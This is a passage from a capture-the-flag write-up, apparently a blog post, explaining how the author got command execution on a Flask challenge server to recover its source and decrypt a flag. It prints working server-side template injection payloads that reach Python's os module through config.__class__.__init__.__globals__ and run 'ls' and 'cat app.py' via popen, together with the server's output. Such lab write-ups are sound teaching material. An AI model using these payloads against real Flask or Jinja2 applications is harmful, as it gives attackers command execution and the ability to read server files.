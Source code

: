## Decrypting the flag

Decrypting the flag was easier said then done. I tried several algorithms but none resulted in any usefull output and it doesn't look like the output of any common encryption algorithm.

This is when I started to try to get the source of the server so we can see how it gets and/or creates the flag. To get the source we first need arbitrary code execution.

### Arbitrary Code Execution (ACE)

The easiest way to get ACE is using the `os` module in python. To use it, the server has to have it imported though.

We can find the `os` module in the `globals` dictionary, which, in turn, can be found in the `__init__` function of the `Config` class. To get to it we can use the following path:

```python
config.__class__.__init__.__globals__["os"]
```

If we enter this as the input but within brackets, we get the following output:

```text
<module 'os' from '/usr/local/lib/python3.7/os.py'>
```

_Note: if the `os` module wouldn't have been there, you could look for another module in `{{config.__class__.__init__.__globals__}}`_

This means our exploit works and we can use it to execute commands. To do this, we can use the `popen` function like so:

```python
config.__class__.__init__.__globals__['os'].popen('ls').read()
```

### Grabbing the file

If we use the above code as the input, we get the following return message:

```text
You entered an unknown emoji: __pycache__
app.py
requirements.txt
serve.sh
static
supervisord.pid
templates
```

The source of the server is probably `app.py` as it's the default for flask applications. Let's `cat` it:

```python
config.__class__.__init__.__globals__['os'].popen('cat app.py').read()
```

{{< code language="python" title="app.py" >}}
